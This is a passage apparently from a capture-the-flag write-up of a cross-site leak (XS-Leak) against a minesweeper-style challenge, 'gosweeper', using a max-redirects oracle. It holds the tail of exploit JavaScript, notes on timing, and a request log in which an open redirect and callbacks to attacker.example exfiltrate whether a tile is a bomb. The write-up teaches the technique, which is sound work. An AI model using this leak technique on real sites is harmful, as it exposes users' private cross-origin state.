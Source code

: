 ```html, hl_lines=14
    callback(w);
    // (repeat a few times)
  };

  window.opener.onunload = () => {
    document.getElementById('form-guess').submit()
    leak();
  }
</script>
```

Notice some optimisations that were made in order to make sure we always™ get the
correct result:
- A new tab is open as soon as the page is loaded, even before the `window.opener.onunload`
  event handler is fired, in order to reduce the time it takes to initiate the request of
  the redirects;
- The redirects are _slow_, so starting them at the same time as the guess is not a problem
  and also helps with making sure it finishes within the 4 seconds that we have;
- We first wait 2.5 seconds after sending back the status of the window, but in some cases
  this might not be enough time for all the redirects to finish, so we keep sending requests
  at 100ms intervals afterwards (until the browser process is abruptly terminated).

This correctly identifies whether the tile is a bomb.
Here is a log of the request in case of a bomb:

```hl_lines=17 22 23
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=18&url=https%3A%2F%2Fgosweeper.example%2Fboard
// ...
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=4&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://attacker.example/callback/bomb
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=3&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=2&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=1&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=0&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://gosweeper.example/board
[DEBUG]   - 200 https://attacker.example/callback/bomb
```


[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/